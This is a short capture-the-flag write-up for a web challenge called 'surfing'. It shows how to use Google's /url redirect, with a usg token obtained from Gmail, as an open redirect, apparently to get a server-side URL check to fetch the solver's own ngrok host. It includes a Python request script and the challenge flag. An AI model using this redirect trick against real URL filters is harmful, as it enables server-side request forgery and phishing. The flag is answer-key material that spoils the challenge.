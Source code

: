 https://ctftime.org/event/2423

# surfing (web)

Google redirects

## Solution

Very interesting challenge, basically you send an email on gmail to yourself to get the usg parameter.
Then you can use google as a open-redirect.
`#` at the end is needed for some reason.

```python
import requests
from urllib.parse import quote_plus, quote

part2 = "https://ca14-2804-1b3-8146-8451-d3ef-cb85-2b79-23d7.ngrok-free.app&source=gmail&ust=1722697936722000&usg=AOvVaw3Djb1BbeFhNoc5_At0Cbfe#"
part2 = quote_plus(part2)
payload = "http://google.com/url?q=" + part2

burp0_url = "http://challs.tfcctf.com:31595/get"

res = requests.get(burp0_url, params=f'url={payload}', proxies={
    'http': 'http://0.0.0.0:8080',
    'https': 'https://0.0.0.0:8080'
})
print(f"DEBUGPRINT[1]: go.py:6: res.text={res.text}")


```

## Flag
`TFCCTF{18fd102247cb73e9f9acaa42801ad03cf622ca1c3689e4969affcb128769d0bc}`

shafouz 2024/08/03
